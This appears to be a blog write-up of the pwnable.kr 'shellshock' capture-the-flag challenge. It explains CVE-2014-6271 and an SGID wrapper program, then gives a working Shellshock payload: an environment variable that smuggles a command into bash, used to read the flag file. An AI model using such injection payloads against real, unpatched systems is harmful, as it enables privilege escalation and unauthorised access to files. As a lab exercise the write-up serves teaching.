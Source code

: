 ```yaml
---
title: Shellshock - Pwnable.kr
date: 2016-01-15
categories: [Writeups, Pwnable.kr]
tags: ['Bash']
image:
    path: "/unsorted/pwnablekr.png"

---
```


Shellshock indicates a family of bugs who affected bash, which was disclosed
the 24 September 2014 (CVE-2014-6271).  For this challenge we need to use it in
order to get the flag:
   
```console
shellshock@ubuntu:~$ ls -l
-r-xr-xr-x 1 root shellshock2 959120 Oct 12  2014 bash
-r--r----- 1 root shellshock2     47 Oct 12  2014 flag
-r-xr-sr-x 2 root shellshock2   8547 Oct 12  2014 shellshock
-rw-r----- 1 root shellshock     188 Oct 12  2014 shellshock.c
```

Let's first have a look at the programm shellshock as SGID permission is set.
Fortunatly we have the code source:

```c
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

What this program does is pretty simple: it sets the values of his
real/effective/set-user user and group id to the value of his effective group
id and then executes a bash which we can suppose being a vulnerable version.
Now, looking at the permissions of the executable shellshock `-r-xr-sr-x 2 root
shellshock2` we can understand that when we execute shellshock his effective
group id will be the one of the group shellshock2.  This means that the
vulnerable version of bash will be executed with the privileges of shellshock2.


As you can see bash gets executed with the option `-c` that means that the
commands will not be read from the standard input.  So far no way to interact
with the vulnerable bash, but reading a few articles on how the vulnerability
shellshock actually works it's enough to understand how to pass this challenge.


In order to exploit this vulnerability we can set an environment variable
containing a function and the commands we want to execute:

```console
shellshock@ubuntu:~$ export werew="() { :; }; /bin/cat flag;"
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
```

Some nice resources:   
<https://fedoramagazine.org/shellshock-how-does-it-actually-work/>   
<https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited>   
<https://unixpapa.com/incnote/setuid.html>





